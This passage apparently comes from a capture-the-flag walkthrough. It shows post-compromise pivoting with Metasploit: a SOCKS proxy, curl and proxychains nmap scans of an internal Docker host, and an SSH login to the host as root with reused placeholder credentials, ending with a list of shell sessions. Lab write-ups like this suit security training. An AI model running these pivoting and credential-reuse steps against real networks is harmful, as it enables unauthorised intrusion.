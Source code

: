 To further pivot through the private network, we can create a socks proxy within Metasploit:

Metasploit Console Commands

```shell-session
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run srvhost=127.0.0.1 srvport=9050 version=4a
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server
```

This will expose a port on the attacker machine that can be used to run other network tools through, such as `curl` or `proxychains`

Shell commands

```shell-session
# From the attacker’s host machine, we can use curl with the internal Docker IP to show that the web application is running, and the socks proxy works
$ curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v

… etc …

# From the attacker’s host machine, we can use ProxyChains to scan the compromised host machine for common ports
$ proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 08:48 EDT
Nmap scan report for 172.17.0.1
Host is up (0.069s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
5432/tcp closed postgresql

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
```

With the host scanned, we can see that port 22 is open on the host machine. It also is possible that Santa has re-used his password, and it’s possible to SSH into the host machine from the Docker container to grab the flag:

Metasploit Console Commands

```shell-session
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://santa_username_here:santa_password_here@172.17.0.1

[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa_username_here:santa_password_here' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 4 opened (10.11.8.17-10.10.152.194:55634 -> 172.17.0.1:22) at 2022-11-22 02:49:43 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.11.8.17:4444 -> 10.10.152.194:44140 (10.10.152.194)
```